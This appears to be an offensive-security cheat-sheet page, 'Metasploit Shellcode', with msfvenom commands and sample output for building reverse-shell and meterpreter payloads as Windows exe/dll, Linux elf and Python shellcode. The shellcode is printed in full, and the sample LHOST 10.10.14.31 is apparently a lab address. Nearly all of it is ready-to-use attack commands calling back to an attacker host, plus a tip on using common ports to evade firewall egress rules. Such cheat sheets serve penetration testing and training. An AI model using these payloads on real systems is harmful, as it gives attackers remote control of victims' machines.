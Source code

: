 ```yaml
---
title: "Metasploit Shellcode"
date: 2024-6-26
tags: ["Code Execution", "Metasploit", "Firewall", "Payload", "RCE", "Dll Hijacking", "Shellcode", "Reverse Shell", "Msfconsole", "Msfvenom"]
---
```


### Generate Shellcode

<small>*Note: stageless payload can catch with nc directly*</small>

#### Windows x64

{{< tab set1 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set1 tab2 >}}Stageless exe{{< /tab >}}
{{< tab set1 tab3 >}}Staged dll{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.dll
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
```

{{< /tabcontent >}}

#### Windows x86

{{< tab set2 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set2 tab2 >}}Stageless exe{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 > rev.exe
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> EXITFUNC=thread > rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.31 LPORT=1337 EXITFUNC=thread > rev.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

{{< /tabcontent >}}

<small>*Note: These will be flagged by AV*</small>
<br>
<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

#### Linux amd64

{{< tab set3 tab1 active >}}Stageless elf{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f elf > rev.elf
```

```console {class="sample-code"}
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.31 LPORT=1337 -f elf > rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

{{< /tabcontent >}}

#### Others

{{< tab set4 tab1 active >}}Staged python{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# Generate shellcode in python format and avoid specific bytes
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=10.10.14.31 LPORT=1337
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 551 (iteration=0)
x64/xor chosen with final size 551
Payload size: 551 bytes
Final size of python file: 3088 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xc4\x65\xf0"
shellcode += b"\xfa\xa2\xb7\x5f\x27\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x38\x2d\x73\x1e\x52"
shellcode += b"\x5f\x93\x27\xc4\x65\xb1\xab\xe3\xe7\x0d\x76"
shellcode += b"\x92\x2d\xc1\x28\xc7\xff\xd4\x75\xa4\x2d\x7b"
shellcode += b"\xa8\xba\xff\xd4\x75\xe4\x28\xc1\x33\xea\x3c"
shellcode += b"\x2d\x77\x8c\x6a\x47\xb0\xe8\xff\x6e\xe7\x68"
shellcode += b"\x59\x91\x86\xa0\x9b\x7f\x66\x05\xac\xfd\xbb"
shellcode += b"\xa3\x76\xbd\xca\x96\x2d\x7b\xa8\x82\xf6\x0e"
shellcode += b"\xac\x86\x59\xb8\xfb\x72\xd1\xde\x5f\xdc\x6e"
shellcode += b"\xf2\xf5\x27\xc5\x5f\x27\xc4\xee\x70\x72\xa2"
shellcode += b"\xb7\x5f\x6f\x41\xa5\x84\x9d\xea\xb6\x8f\xac"
shellcode += b"\x8c\x7d\xa0\xbe\x29\xf7\x7f\x6e\xc5\xb5\x13"
shellcode += b"\xac\xea\x48\x96\x66\x4f\x51\x78\xb2\xa3\x61"
shellcode += b"\x12\x16\x0d\x2d\xc1\x3a\xe3\x76\x96\x2a\x68"
shellcode += b"\x24\xf1\x3b\x9a\x57\x2a\xd6\x88\x66\xbc\xde"
shellcode += b"\xaa\xf2\x66\xf6\xb1\xbd\xa8\xbe\x29\xf7\x7b"
shellcode += b"\x6e\xc5\xb5\x96\xbb\x29\xbb\x17\x63\x4f\x25"
shellcode += b"\xec\xb3\xa3\x67\x1e\xac\xc0\xed\xb8\xfb\x72"
shellcode += b"\xf6\x07\x66\x9c\x3b\xa9\xa0\xe3\xef\x1e\x7e"
shellcode += b"\x85\x3f\xb8\x79\x4e\x97\x1e\x75\x3b\x85\xa8"
shellcode += b"\xbb\xfb\xed\x17\xac\xd6\x8c\xbb\x05\x5d\x48"
shellcode += b"\x02\x6e\x7a\x12\x83\xc8\xfd\x84\x6d\x27\xc4"
shellcode += b"\x24\xa6\xb3\x2b\x51\x17\xa6\x28\xc5\xf1\xfa"
shellcode += b"\xa2\xfe\xd6\xc2\x8d\xd9\xf2\xfa\xa7\x8e\x55"
shellcode += b"\x2d\xca\x7a\xb1\xae\xeb\x3e\xbb\x6b\x4d\x94"
shellcode += b"\xb1\x40\xee\xc0\x79\x20\x3b\xb0\xbc\x73\x48"
shellcode += b"\xdf\x5e\x26\xc4\x65\xa9\xbb\x18\x9e\xdf\x4c"
shellcode += b"\xc4\x9a\x25\x90\xa8\xf6\x01\x77\x94\x28\xc1"
shellcode += b"\x33\xef\x86\x9f\x6f\x3b\xa5\xb8\x73\x60\xff"
shellcode += b"\xa0\xe7\x8c\xec\x31\xbb\x18\x5d\x50\xf8\x24"
shellcode += b"\x9a\x25\xb2\x2b\x70\x35\x37\x85\x3d\xbc\x73"
shellcode += b"\x40\xff\xd6\xde\x85\xdf\x69\x5f\xd6\xd6\xa0"
shellcode += b"\xf2\x41\xa5\x84\xf0\xeb\x48\x91\x52\x21\x8d"
shellcode += b"\x63\xfa\xa2\xb7\x17\xa4\x28\x75\xb8\x73\x40"
shellcode += b"\xfa\x6e\xee\xae\x61\xb1\xa2\xea\x3e\xa6\x66"
shellcode += b"\x7e\x67\x29\x32\xfd\x48\x8a\xa4\x3c\x65\x8e"
shellcode += b"\xaf\xea\x34\x9b\x07\x9a\xec\x06\x90\xe2\xf6"
shellcode += b"\x06\x4f\xc4\x75\xf0\xfa\xe3\xef\x17\xae\x36"
shellcode += b"\x2d\xc1\x33\xe3\x0d\x07\x83\x97\x80\x0f\x2f"
shellcode += b"\xea\x3e\x9c\x6e\x4d\xa2\xbd\xcb\x6b\xfe\xd6"
shellcode += b"\xd7\x8c\xec\x2a\xb2\x2b\x4e\x1e\x9d\xc6\xbc"
shellcode += b"\x38\xa5\x5d\x62\xdc\xdf\xc4\x18\xd8\xa2\xe3"
shellcode += b"\xe0\x06\x4f\xc4\x25\xf0\xfa\xe3\xef\x35\x27"
shellcode += b"\x9e\x24\x4a\xf1\x8d\xb8\x6f\xd8\x11\x32\xa9"
shellcode += b"\xbb\x18\xc2\x31\x6a\xa5\x9a\x25\xb3\x5d\x79"
shellcode += b"\xb6\x1b\x3b\x9a\x0f\xb2\xa3\x74\x17\x0e\x02"
shellcode += b"\x2d\x75\x0c\xd7\x03\x1e\xd8\x23\x3d\x9a\xfa"
shellcode += b"\xfb\xfe\x98\xe5\x34\xd0\x52\xac\x5d\x62\x5f"
shellcode += b"\x27"
```

{{< /tabcontent >}}
